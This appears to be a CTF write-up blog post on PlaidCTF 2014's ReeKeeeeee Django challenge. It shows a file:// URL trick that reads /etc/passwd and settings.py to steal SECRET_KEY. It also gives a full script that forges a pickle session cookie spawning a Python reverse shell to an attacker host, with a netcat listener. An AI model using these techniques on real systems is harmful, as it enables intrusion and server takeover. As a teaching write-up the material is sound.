 ```yaml
---
layout: post
title: "PlaidCTF 2014: ReeKeeeee"
date: 2014-04-14 06:46:01 +0000
permalink: /2014/04/14/plaidctf-2014-reekeeeee/
category: Security
tags:
  - CTF
  - PlaidCTF
  - Security
---
```

ReeKeeeeee was, by far, the most visually painful challenge in the CTF, with a flashing rainbow background on every page.  Blocking scripts was clearly a win here.  Like many of the challenges this year, it turned out to require multiple exploitation steps.

ReeKeeeeee was a meme-generating service that allowed you to provide a URL to an image and text to overlay on the image.  Source code was provided, and it was worth noting that it's a Django app using the <code>django.contrib.sessions.serializers.PickleSerializer</code> serializer.  As the [documentation for the serializer](https://docs.djangoproject.com/en/1.5/topics/http/sessions/) notes, **If the SECRET_KEY is not kept secret and you are using the PickleSerializer, this can lead to arbitrary remote code execution.**  So, maybe, can we get the SECRET_KEY?

#### Getting SECRET_KEY ####
Here's the core of the meme-creation view in views.py:

    try:
      if "http://" in url:
        image = urllib2.urlopen(url)
      else:
        image = urllib2.urlopen("http://"+url)
    except:
      return HttpResponse("Error: couldn't get to that URL"+BACK)
    if int(image.headers["Content-Length"]) > 1024*1024:
      return HttpResponse("File too large")
    fn = get_next_file(username)
    print fn
    open(fn,"w").write(image.read())
    add_text(fn,imghdr.what(fn),text)


Looking at how images are loaded, they are sourced via <code>urllib2.urlopen</code>, then saved to a file, then PIL is used to add text to the image.  If the file is not a valid image type, an exception will be thrown during this phase.  However, **the original file downloaded remains on disk.**  This means we can use the download to source any file and get a copy of it, even though it will be served with the bizarre mimetype image/None.

At first, it appears that only http:// urls are permitted, so we considered that we might be able to source some URL from localhost that might provide us with the application configuration, but we couldn't find any such URL.  I tried building a webserver that sends a redirect to a file:// url, but the Python developers are wise to that.  Then I noticed that it says <code>"http://" in url</code>, which means that it only needs to *contain* http://, but doesn't have to start with that protocol.  So, I began playing around with options to try to use a file:// url, but containing http://.  My first thought was as a username, with something like <code>file://http://@/etc/passwd</code> or <code>file://http://@localhost/etc/passwd</code>, but neither of those worked.  I also tried a query-string like path, with <code>file:///etc/passwd?http://</code>, but that's also just considered part of the filename.  Finally, my teammate Taylor noticed that this construct seems to work: <code>file:///etc/passwd#http://</code>.

Now we needed to find the SECRET_KEY.  Even though we dumped <code>/etc/passwd</code>, and could see users and home directories, we couldn't find settings.py.  It took a few minutes to realize that we could find the directory we were running from by <code>/proc/self/cwd</code>, and based on the provided source, the file was probably at <code>mymeme/settings.py</code>.  Trying <code>file:///proc/self/cwd/mymeme/settings.py#http://</code> for the image URL finally gave us a usable copy of settings.py.

#### SECRET_KEY to flag ####
Given the SECRET_KEY, we can now construct our own session tokens.  Since we're using the pickle session module, we can produce sessions that give us code execution via pickling.  Objects can implement a custom <code>__reduce_\_</code> method that defines how they are to be pickled, and they will be unpickled by calling the relevant "constructor function."  For a general primer on exploiting Python pickling, see [Nelson Elhage's blog post](https://blog.nelhage.com/2011/03/exploiting-pickle/). 

I decide the easiest way to exploit code execution is to use a reverse shell on the box, which can be launched via subprocess.popen.  Since we know python is on the system, but can't be sure of any other tools, I decide to use a python reverse shell.  Here's the script I wrote to construct a new session cookie:

    #!python
    import os
    import subprocess
    import pickle
    from django.core import signing
    from django.contrib.sessions.serializers import PickleSerializer
    
    os.environ.setdefault("DJANGO_SETTINGS_MODULE", "mymeme.settings")
    
    class Exploit(object):
      def __reduce__(self):
        return (subprocess.Popen, (
          ("""python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("xxx.myvps.xxx",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' &"""),
          0, # Bufsize
          None, # exec
          None, #stdin
          None, #stdout
          None, #stderr
          None, #preexec
          False, #close_fds
          True, # shell
          ))
    
    #pickle.loads(pickle.dumps(Exploit()))
    
    print signing.dumps(Exploit(),
        salt='django.contrib.sessions.backends.signed_cookies',
        serializer=PickleSerializer,
        compress=True)

Running this gives us our new cookie value.  Before I load a page with the cookie, I start a netcat listener with <code>nc -l -p 1234</code> for the shell to connect to.  When I load the page, I see my listener get a connection, and I have a remote shell.  Moving up a directory, I find an executable named something like <code>run_this_for_flag.exe</code> and I run it to get the flag.

#### Conclusion ####
Took an information disclosure + remote code execution via pickle, but just goes to show you how easy it is to escalate a bad use of urlopen to a remote shell.  In fact, had it said <code>url.startswith('http://')</code> instead of <code>'http://' in url</code>, everything would've stopped there.  Small vulnerabilities can lead to big problems.
